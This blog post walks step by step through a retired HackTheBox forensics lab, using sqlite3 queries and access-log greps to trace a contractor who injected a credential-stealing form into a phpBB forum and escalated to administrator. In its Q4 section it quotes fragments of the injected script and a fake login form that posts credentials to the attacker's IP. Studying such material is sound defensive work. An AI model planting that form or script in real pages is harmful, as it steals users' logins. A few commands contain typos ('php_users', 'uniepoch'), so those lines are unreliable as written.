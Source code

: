```yaml
---
layout: post
title:  "Full Meal: Bumblebee Sherlock"
date:   2025-05-31
author: C. Casquatch
comments: false
tags: ['sqlitebrowser', 'access logs', 'sqlite3', 'htb']
---
```


> RETIRED: Bumblebee Sherlock Walkthrough

**Note**: This is a casual walkthrough I put together because the original write-up was a bit overwhelming—especially because I am new to SQLite Browser. Hopefully, this helps others in the same boat!

---

## Scenario

> *"An external contractor has accessed the internal forum here at Forela via the Guest Wi-Fi, and they appear to have stolen credentials for the administrative user! We have attached some logs from the forum and a full database dump in sqlite3 format to help you in your investigation."*

---

## Getting Started

Install SQLite browser (on Parrot OS):
```
sudo apt install sqlitebrowser
```

Navigate to the folder where the `incident` folder is saved. This makes referencing files easier.

To access the SQLite database:
```
sqlite3 phpbb.sqlite3
```

You should see the `sqlite>` prompt.

![screenshot 1](assets/images/bumblebee/screenshot1.png)

To view the schema of the `phpbb_users` table:
```
.schema php_users
```

![screenshot 2](assets/images/bumblebee/screenshot2.png)

---

## Q1: What was the username of the external contractor?

Run the following query:
```
SELECT user_id, username, user_email, user_lastvisit, user_ip FROM phpbb_users;
```

![screenshot 3](assets/images/bumblebee/screenshot3.png)

To narrow it down further:
```
SELECT user_id, username, user_email, user_ip
FROM phpbb_users
WHERE username LIKE '%contractor%' OR user_email LIKE '%contractor%' OR user_ip = 'KNOWN_IP';
```

---

## Q2: What IP address did the contractor use?

This can be found from the same query above using the `user_ip` field.

---

## Q3: What is the post_id of the malicious post that the contractor made?

From Q1, let’s say the user ID is 52. Set display modes for easier output:
```
.headers on
.mode column
```

Then run:
```
SELECT post_id, post_subject, post_text
FROM phpbb_posts
WHERE poster_id = 52;
```

---

## Q4: What is the full URI that the credential stealer sends its data to?

From the `post_text`, we find HTML content.

![screenshot 4](assets/images/bumblebee/screenshot4.png)

Export to HTML:
```
.headers on
.mode html
.output results.html
```

The file will be saved in the directory your terminal is pointed to.

![screenshot 5](assets/images/bumblebee/screenshot5.png)

Look for this function in the HTML:

```
<script>
function setHidden() {
    const d = new Date();
    d.setTime(d.getTime() + (24 * 60 * 60 * 1000));
    let expires = "expires=" + d.toUTCString();
    document.cookie = "phpbb_token=1;" + expires + ";";

    const modal = document.getElementById('zbzbz1234');
    modal.classList.add("hidden");
}
...
</script>
```

Eventually you'll find this form:

```
<form action="http://10.10.0.78/update.php" method="post" id="login" ...>
  ...
</form>
```

Reset output to terminal:
```
.output stdout
```

---

## Q5: When did the contractor log into the forum as the administrator?

Answered after Q6 and Q8, using `LOG_ADMIN_AUTH_SUCCESS` (not the first instance).

---

## Q6: What is the password for the LDAP connection?

Query the `phpbb_config` table:
```
SELECT * FROM phpbb_config WHERE config_name LIKE 'ldap_%';
```

![screenshot 6](assets/images/bumblebee/screenshot6.png)

---

## Q7: What is the user agent of the Administrator user?

After determining the admin's IP (e.g. `10.255.254.2`) from Q8, run:
```
grep -E '^10.255.254.2' access.log | head
```

Look for the last quoted string in the line. That’s your user agent.

![screenshot 8](assets/images/bumblebee/screenshot8.png)

---

## Q8: What time did the contractor add themselves to the Administrator group?

Run this query:
```
.headers on
.mode column
SELECT
    log_id, 
    phpbb_users.username,
    log_ip,
    datetime(log_time, 'uniepoch'),
    log_operation,
    log_data
FROM
    phpbb_log
INNER JOIN phpbb_users ON phpbb_log.user_id = phpbb_users.user_id;
```

![screenshot 7](assets/images/bumblebee/screenshot7.png)

Note the timestamp and IP address of the action.

---

## Q9: What time did the contractor download the database backup?

Use contractor’s IP (`10.10.0.78`) and date `26/Apr/2023`:
```
grep -E '^10.10.0.78' access.log | grep '26/Apr/2023:1' | tail
```

Explanation:
- `^` matches start of line.
- `:1` filters for times starting with 1 (10:00–19:59).
- `tail` gets the latest relevant lines.

![screenshot 9](assets/images/bumblebee/screenshot9.png)

Note: The write-up indicates that you have to subtract an hour from the log time to get UTC. Not sure why—maybe just take their word for it.

---

## Q10: What was the size in bytes of the database backup as stated by access.log?

Same grep result from Q9. Look for the value next to the `200` HTTP status—it’s likely something like `34707`.

---

Enjoyed the lab? Confused by some things? Same here. Hopefully this helped you piece things together more easily.


<button onclick="history.back()">Go Back</button>
